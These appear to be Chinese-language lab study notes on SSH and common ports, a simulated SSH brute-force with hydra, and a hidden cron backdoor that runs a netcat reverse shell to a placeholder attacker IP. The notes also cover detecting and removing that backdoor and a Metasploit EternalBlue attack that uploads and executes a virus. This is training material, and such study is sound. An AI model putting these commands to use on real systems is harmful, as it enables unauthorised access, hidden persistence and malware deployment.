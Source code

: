 # 1.SSH
    安全外壳协议：ssh 
    用途：远程登录系统
# 2. 常见的端口对应的服务
    22   ssh
    445  smb   ms17-010(永恒之蓝漏洞)
    3306 mysql
    3389 rdp远程桌面连接服务
    80   http
    443 https
# 3.模拟ssh攻击：
    1.信息收集：使用nmap 扫描靶机的端口   namp + 端口
    2.发现开启22 ssh端口，尝试爆破
    3.爆破 ssh。 使用hydra爆破 ：hydra -L users.txt -P password.txt ssh://ip
    4.登录ssh    ssh 账号@ip  
    5.留后门（在靶机下尝试创建隐藏计划任务）：
        #进去 /tmp 目录创建 task.sh文件。 内容 ：#!/bin/bash nc 攻击机ip  8888 -e /bin/bash  (反弹ssh到攻击机8888端口)
        #增加可执行权限： chmod +x .sh文件 
        #创建计划任务：vim create_task.sh文件 内容：(crontab -l;printf "***** /tmp/task.sh;\rno crontw-wab for `whoami`%100c\n")|crontab -      (每隔一分钟执行一次task.sh文件)。增加可执行权限
        #启动计划任务： ./create_task.sh 
    6.监听反弹ssh脚本，尝试nc链接目标主机： nc -lvp 8888
    7.为什么创建计划任务：权限维持
# 4.靶机操作：
    1.netstat -antpl 查看本机网络链接，发现 外部链接/bash
    2.pstree -p  查看寄存树，寻找到bash
    3.查看具体进程 ： systemctl status  + PID 
    4.查看计划任务： cat -A  /var/spool/cron/crontabs/root
    5.查看日志：
        登录成功的日志  last -f /var/log/wtmp    
        登陆失败的日志： last -f /var/log/btmp
    6.删除计划任务 crontab -r -u root
    7.杀死进程 ：kill + PID 
    8.删除文件 rm task.sh rm create_task.sh
    9.修改密码：password root
    10.关闭root用户远程连接的权限：vim/etc/ssh/sshd_config ：修改PermitRootLogin 为no，在此文件中也可以修改端口号
# 5.模拟wananCry攻击
    1.开启msfconfig
    2.搜索相关模块：search ms17-010
    3.使用永恒之蓝漏洞 use 0
    4.set rhost + 靶机ip      options查看相关参数
    5.开始攻击  run 显示win 表示成功   getuid 查看靶机的id   shell 进入靶机的cmd
    6.上传病毒：upload +病毒文件
    7.执行病毒  execute -f +病毒文件
    8.查看病毒是否执行： ps -ef | grep +文件名
# 6.dvwa操作：
    开启mysql systemctl start mariadb 
    开启apache2 systemctl start apache2
